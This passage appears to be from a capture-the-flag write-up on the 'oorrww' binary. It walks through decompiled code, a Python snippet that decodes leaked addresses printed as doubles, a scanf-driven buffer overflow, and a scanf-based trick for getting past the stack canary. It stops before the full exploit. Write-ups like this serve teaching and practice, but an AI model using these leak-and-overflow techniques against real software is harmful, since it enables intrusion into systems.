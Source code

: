 Interestingly, the name of the binary file, `oorrww` turned out to be an abbreviation for `open/read/write`, so we need
to open the flag, read it, and then write it to stdout.

Getting back to the binja, we have:
```chatinput
main()
...
gifts(&var_a8)
...

00001331  int64_t gifts(int64_t arg1)
00001341      void* fsbase
00001341      int64_t rax = *(fsbase + 0x28)
00001357      int64_t (* const var_28)() = __isoc99_scanf
0000137e      int512_t zmm1
0000137e      zmm1.o = zx.o(__isoc99_scanf)
00001396      printf("here are gifts for you: %.16g %.…", arg1, zmm1)
000013a0      int64_t rax_4 = rax - *(fsbase + 0x28)
000013a9      if (rax != *(fsbase + 0x28))
000013ab          rax_4 = __stack_chk_fail()
000013b1      return rax_4
```

So, the program leaks the address of the `var_a8` which is the buffer where we write and `__isoc99_scanf`.
The only thing is it prints the addresses as double, so we have to decode it to hex, I have this in my exploit:

```py
fleak = io.recvline().strip().decode().split()
buffer_leak = float.hex(float(fleak[5]))
buffer_leak = int(buffer_leak[5:17], 16)

scanf_leak = float.hex(float(fleak[6][:-1]))
scanf_leak = int(scanf_leak[5:17], 16)
```

Next in the binary we have:
```C
00001455      for (int32_t i = 0; i s<= 0x15; i = i + 1)
00001416          puts("input:")
00001442          __isoc99_scanf(&data_2035, sx.q(i << 3) + &var_a8, &var_a8)
```

It takes our inputs up to 22 times, and it will eventually overflow the buffer. But yet again, it takes
our input as double, so we need to pack it to hex and don't forget there is also the stack canary, so
before we hit the ret it crashes and kills the process.

Fortunately, I have had some experience with this kind of scenario in the past, and here is a [great article](https://rehex.ninja/posts/scanf-and-hateful-dot/)
that explains how to bypass stack canary using `scanf` dots.
